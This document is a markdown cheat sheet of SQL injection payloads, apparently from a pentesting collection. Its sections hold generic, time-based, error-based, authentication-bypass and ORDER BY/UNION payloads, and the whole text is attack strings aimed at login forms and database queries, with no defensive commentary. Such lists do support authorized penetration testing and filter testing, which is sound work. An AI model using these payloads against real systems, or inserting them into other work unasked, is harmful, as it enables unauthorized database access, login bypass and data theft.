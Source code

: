 # SQL 1nj3ction
## Generic SQL Injection Payloads
`' or '`
`-- or # `
`' OR '1`
`' OR 1 -- -`
`OR "" = "`
`" OR 1 = 1 -- -"`
`' OR '' = '`
`'='`
`'LIKE'`
`'=0--+`
`OR 1=1`
`' OR 'x'='x`
`' AND id IS NULL; --`
`'''''''''''''UNION SELECT '2`

## Time-Based
`,(select * from (select(sleep(10)))a)`
`%2c(select%20*%20from%20(select(sleep(10)))a)`
`';WAITFOR DELAY '0:0:30'--`

## Generic Error Based Payloads
`OR 1=1`
`OR 1=1#`
`OR x=y#`
`OR 1=1-- `
`OR x=x-- `
`OR 3409=3409 AND ('pytW' LIKE 'pytW`
`HAVING 1=1`
`HAVING 1=1#`
`HAVING 1=0-- `
`AND 1=1-- `
`AND 1=1 AND '%'='`
`WHERE 1=1 AND 1=0--`
`%' AND 8310=8310 AND '%'='`

## Authentication Based Payloads
`' or ''-'`
`' or '' '`
`' or ''&'`
`' or ''^'`
`' or ''*'`
`or true--`
`" or true--`
`' or true--`
`") or true--`
`') or true--`
`admin') or ('1'='1'--`
`admin') or ('1'='1'#`
`admin') or ('1'='1'/`

## Order by and UNION Based Payloads
`1' ORDER BY 1--+`
`1' ORDER BY 2--+`
`1' ORDER BY 3--+`
`1' ORDER BY 1,2--+`
`1' ORDER BY 1,2,3--+`
`1' GROUP BY 1,2,--+`
`1' GROUP BY 1,2,3--+`
`' GROUP BY columnnames having 1=1 --`
`-1' UNION SELECT 1,2,3--+`
`' UNION SELECT sum(columnname ) from tablename --`
`-1 UNION SELECT 1 INTO @,@`
`-1 UNION SELECT 1 INTO @,@,@`
`1 AND (SELECT * FROM Users) = 1 `
`' AND MID(VERSION(),1,1) = '5';`
`' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --`